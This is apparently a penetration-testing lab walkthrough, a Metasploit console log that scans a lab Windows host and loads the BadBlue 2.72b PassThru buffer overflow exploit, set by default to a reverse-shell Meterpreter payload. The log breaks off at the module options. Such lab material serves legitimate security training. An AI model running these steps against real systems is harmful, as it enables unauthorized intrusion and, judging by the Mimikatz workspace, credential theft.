## 复现视频中的内容
Target IP Address : 10.0.21.9

```
root@attackdefense:~# service postgresql start && msfconsole
msf6 > workspace -a Mimikatz
[*] Added workspace: Mimikatz
[*] Workspace: Mimikatz
msf6 > setg RHOSTS 10.0.21.9
RHOSTS => 10.0.21.9
msf6 > db_nmap -sV 10.0.21.9
[*] Nmap: Starting Nmap 7.91 ( https://nmap.org ) at 2023-02-18 15:02 IST
[*] Nmap: Nmap scan report for 10.0.21.9
[*] Nmap: Host is up (0.0026s latency).
[*] Nmap: Not shown: 994 closed ports
[*] Nmap: PORT     STATE SERVICE       VERSION
[*] Nmap: 80/tcp   open  http          BadBlue httpd 2.7
[*] Nmap: 135/tcp  open  msrpc         Microsoft Windows RPC
[*] Nmap: 139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp  open  microsoft-ds?
[*] Nmap: 3389/tcp open  ms-wbt-server Microsoft Terminal Services
[*] Nmap: 5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
[*] Nmap: Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 13.09 seconds
msf6 > services
Services
========

host       port  proto  name           state  info
----       ----  -----  ----           -----  ----
10.0.21.9  80    tcp    http           open   BadBlue httpd 2.7
10.0.21.9  135   tcp    msrpc          open   Microsoft Windows RPC
10.0.21.9  139   tcp    netbios-ssn    open   Microsoft Windows netbios-ssn
10.0.21.9  445   tcp    microsoft-ds   open   
10.0.21.9  3389  tcp    ms-wbt-server  open   Microsoft Terminal Services
10.0.21.9  5357  tcp    http           open   Microsoft HTTPAPI httpd 2.0 SSDP/UPnP
```

```
msf6 > search badblue 2.7

Matching Modules
================

   #  Name                                   Disclosure Date  Rank   Check  Description
   -  ----                                   ---------------  ----   -----  -----------
   0  exploit/windows/http/badblue_passthru  2007-12-10       great  No     BadBlue 2.72b PassThru Buffer Overflow


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/badblue_passthru

msf6 > use exploit/windows/http/badblue_passthru
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/badblue_passthru) > show options

Module options (exploit/windows/http/badblue_passthru):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
```
